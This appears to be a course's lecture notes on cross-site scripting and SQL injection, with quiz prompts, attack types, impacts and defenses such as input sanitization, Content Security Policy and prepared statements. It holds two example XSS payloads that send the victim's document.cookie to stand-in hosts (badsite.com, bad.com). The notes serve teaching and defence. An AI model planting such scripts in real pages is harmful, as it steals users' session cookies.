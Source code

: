 ```yaml
---
layout: ../../../semesters/Winter2024Markdown.astro
---
```


# XSS and SQL injection

## Ungraded Quiz

- use an example to explain how a stored XSS attack works
- use an example to explain how a SQL injection attack works

## Key concepts

### XSS: cross-site scripting

- injecting malicious scripts into HTML tags or or web pages 0 rendering the
  HTML causes the script to be executed

- _stored/persistent XSS_:

```HTML
Here is a picture of my dog <img id="mydogpic" src="dog.jpg">
  <script>document.getElementById("mydogpic").src="http://badsite.com/dog.jpg?arg1=" + document.cookie </script>
```

- _websites must sanitize input!_

- _reflected (non-persistent) XSS_:

```HTML
Our favorite site for deals is www.good.com:  <a href=’http://www.good.com/ <script>document.location="http://bad.com/dog.jpg?arg1="+document.cookie; </script>’> Click here </a>
```

- takes advantage of a site that returns 404 errors with
  `File-not-found: filepath-requested`

- _DOM-based XSS_

  - see [DOM-based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)

- [see Figure 9.6, page 264](https://people.scs.carleton.ca/~paulv/toolsjewels/TJrev1/ch9-rev1.pdf)

- for another source on XSS attacks, see
  [types of cross-site scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

- XSS impacts

  - once you allow an attacker to inject JavaScript, they can do a lot
  - browser redirection
  - access cookies
  - access browser-stored data for a website
  - rewrite the document being displayed
  - exploit browser vulnerabilities

- defenses
  - sanitize input by removing tags
  - [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
    - server can specify which domains are allowed to execute scripts

### SQL Injection

- why a vulnerability exists

  - databases store information in tables
  - scripts construct SQL queries
  - scripts use input from cookies, variables, users

- SQL injection

  - crafting input so an attacker chooses an SQL command to be executed
  - extraction
  - modification
  - unauthorized account access
  - denial of service

- see
  [Examples, page 267 and 268](https://people.scs.carleton.ca/~paulv/toolsjewels/TJrev1/ch9-rev1.pdf)

- see [Example, page]

- defenses

  - _escaping_ problematic characters
  - _denylists_: filtering out denied commands
  - _positive validation_: only allowing certain commands

  - see
    [prepared statements, OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

